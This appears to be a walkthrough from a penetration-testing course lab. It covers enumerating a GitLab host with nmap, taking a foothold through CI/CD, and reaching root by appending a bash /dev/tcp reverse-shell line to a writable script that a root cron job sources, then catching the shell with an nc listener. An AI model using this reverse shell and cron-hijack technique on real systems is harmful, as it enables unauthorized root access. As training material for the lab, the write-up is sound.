






# CICD

## Enumeration

Output from `nmap` command run [here](./#nmap):

```
Nmap scan report for vm5.skylark (10.20.111.14)
Host is up (0.039s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 68:e3:f4:77:ec:9b:94:91:cb:54:ad:58:19:70:8e:b5 (RSA)
|_  256 b6:84:c4:6c:2a:91:ec:10:45:09:f7:73:62:46:5a:75 (ED25519)
80/tcp   open  http    nginx
|_http-trane-info: Problem with XML parsing of /evox/about
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://vm5.skylark/users/sign_in
| http-robots.txt: 57 disallowed entries (15 shown)
| / /autocomplete/users /autocomplete/projects /search 
| /admin /profile /dashboard /users /api/v* /help /s/ /-/profile 
|_/-/ide/ /-/experiment /*/new
8060/tcp open  http    nginx 1.20.2
|_http-server-header: nginx/1.20.2
|_http-title: 404 Not Found
9094/tcp open  unknown
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Port 80

Curious about port 80 I head here and find a GitLab sign-in portal:

<figure><figcaption><p>Sign in portal on 80</p></figcaption></figure>

I have no real way forward so I pause and look elsewhere for now.

### Other Ports

* **Port 22:** I spray the credentials I know here but none of them work
* **Port 8060:** 404s so not much can be done.
  * I run a `feroxbuster` scan to be save but nothing comes up
* **Port 9094:** This port seems to be used by AWS. Given no cloud work in the course I do not think this is going to be the vector
  * Check for exploits for this port just in case but find nothing

## Foothold

Initial access is provided by [manipulating a GitLab CI/CD YAML script](../subnet-10.10.xxx.0-24/rd.md#reverse-shell) on `RD`:


User access achieved as `gitlab-runner`.

## Privilege Escalation

I start with PEAS and do some manual enumeration while it runs. I find no `sudo`, SUID, or capability binaries that are useful.

### CRON Jobs

I move on to CRON jobs and find something interesting in `/etc/crontab`:

```bash
cat /etc/crontab
```

<figure><figcaption><p>Output of CRON listing checks</p></figcaption></figure>

This custom script looks promising. Unfortunately I cannot write to the file so I cannot modify it with a reverse shell:

<figure><figcaption><p>Unwritable file run by CRON job</p></figcaption></figure>

I can read it though so I grab it to examine what it does.


```bash
#!/bin/bash

echo "Starting fs_checks"

# echo "Importing helpers"
. /opt/u/__fs.sh

echo -n "" > /opt/fs_checks/fs.log
sleep 5
check_filesystems
sleep 5
check_users
sleep 5
check_gitlab
sleep 5
iostat -c >> /opt/fs_checks/fs.log
```


It seems to just run some checks but the most interesting thing is the import statement on line 6. This references another local script. I check this one and I can write to it!

<figure><figcaption><p>Writable shell script</p></figcaption></figure>

#### Writable Import

I grab a copy of the file to see what I should modify.


```bash
#!/bin/bash

check_filesystems() {
    EXPECTED_NUMBER="21"
    REAL_NUMBER=`df -h | wc -l`
    if [ "$EXPECTED_NUMBER" -ne "$REAL_NUMBER" ]; then
        echo "WARNING! Unexpected filesystem found!" >> /opt/fs_checks/fs.log
    fi
}

check_users() {
    EXPECTED_USERS="54"
    REAL_USERS=`cat /etc/shadow | wc -l`
    if [ "$EXPECTED_USERS" -ne "$REAL_USERS" ]; then
        echo "WARNING! Unexpected user found!" >> /opt/fs_checks/fs.log
    fi
}


check_gitlab() {
    GITLAB_PS=`ps -C runsvdir >/dev/null`
    if $GITLAB_PS; then
        echo "All running well" >> /opt/fs_checks/fs.log
    else
        echo "Gitlab not running?" >> /opt/fs_checks/fs.log
    fi
}
```


I could place the reverse shell command inside one of the functions and it would be called when the function runs. Alternatively, I could just add it at the end of the file and it would be run at import time. I choose the latter and simply append the following line to the script file:

```bash
bash -c "0<&196;exec 196<>/dev/tcp/192.168.45.157/4445; /bin/bash <&196 >&196 2>&196"
```

<figure><figcaption><p>Modified imported script</p></figcaption></figure>

Once added I just start a listener and wait for the next 5 minute interval to catch my shell:

```bash
nc -lvnp 4445
```

<figure><figcaption><p>Root shell caught</p></figcaption></figure>

`root` access achieved. Chronologically, this is the last machine I attacked in the lab so at this point I am actually completely done.
